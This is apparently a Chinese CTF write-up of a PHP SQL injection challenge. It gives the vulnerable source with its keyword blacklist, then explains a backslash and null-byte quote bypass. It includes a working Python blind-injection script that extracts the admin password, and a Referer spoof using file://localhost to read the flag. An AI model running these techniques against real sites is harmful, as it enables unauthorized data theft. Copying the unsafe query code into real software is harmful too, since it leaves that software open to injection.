 ### 注入题
直接给了源码。
```php
$check_list = "/into|load_file|0x|outfile|by|substr|base|echo|hex|mid|like|or|char|union|or|select|greatest|%00|_|\'|admin|limit|=_| |in|<|>|-|user|\.|\(\)|#|and|if|database|where|concat|insert|having|sleep/i";
if(preg_match($check_list, $_POST['username'])){
    die('<h1>Hacking first,then login!Username is very special.</h1>'); 
}
if(preg_match($check_list, $_POST['passwd'])){
    die('<h1>Hacking first,then login!No easy password.</h1>');
}
$query="select user from user where user='$_POST[username]' and passwd='$_POST[passwd]'"; 
$result = mysql_query($query);
$result = mysql_fetch_array($result);
$passwd = mysql_fetch_array(mysql_query("select passwd from user where user='admin'"));
if($result['user']){
    echo "<h1>Welcome to CTF Training!Please login as role of admin!</h1>"; 
}
if(($passwd['passwd'])&&($passwd['passwd'] === $_POST['passwd'])){
    $url = $_SERVER["HTTP_REFERER"];
    $parts = parse_url($url);
    if(empty($parts['host']) || $parts['host'] != 'localhost'){
        die('<h1>The website only can come from localhost!You are not admin!</h1>');
    }
    else{
        readfile($url);
    }
}
```
过滤了很多东西，乍一看好像过滤了单引号和括号，能想到的就只有order by注入了，但又过滤了by，难道无解了？或者不是个注入？不过仔细看逻辑，读取文件的条件是密码等于数据库里的密码，查询密码的那句是固定的，所以肯定只有通过注入得到密码才能拿到flag。
第一个点是绕过对单引号的过滤，这个其实不是什么新招，注意到没有过滤\，可以用反斜杠把username后的单引号注释掉，然后最后用注释把passwd后的单引号注释掉，语句就变成
```
select user from user where user='\' and passwd='||1;%00'
```
相当于用户名变成了\' and passwd=这一串，后面就可以写盲注语句了。这里的注释用的是;%00看上去%00好像被过滤了，但其实这么写只能过滤%00字符串而不是0x00这个值，所以是个假过滤。
第二个点就是盲注语句，看上去好像把括号过滤了没什么语句可以用了，但它把两个括号写到一起了，也就是只过滤()这种形式，括号中间有东西就可以绕过去了。这里过滤了mid和substr，可以用left或者rpad绕过。代码很简单。
```python
import requests
import string
url = "http://47.102.127.194:8801/check.php"
fuzz = string.ascii_lowercase + string.digits
passwd = ''
for i in range(1,33):
	for k in fuzz:
		payload = f"""||strcmp(left(passwd,{i}),"{passwd+k}");\x00"""

		data = {'username':"\\",'passwd':payload}

		response = requests.post(url,data)
		if len(response.text) == 6309:
			passwd += k
			print(passwd)
			break
```
注出密码之后改referer，要通过locaohost认证又要通过readfile读文件，所以用file协议file://localhost/var/www/html/flag.php，审查元素即可。





